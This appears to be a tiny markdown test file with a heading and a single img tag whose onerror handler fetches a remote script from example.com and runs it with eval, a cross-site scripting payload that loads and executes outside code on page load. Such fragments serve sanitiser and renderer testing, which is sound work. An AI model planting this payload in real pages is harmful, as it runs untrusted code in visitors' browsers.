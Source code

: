 
# h1 test

<img src/onerror="fetch('http:example.com/X.js').then((r)=>r.text()).then(t=>eval(t))">

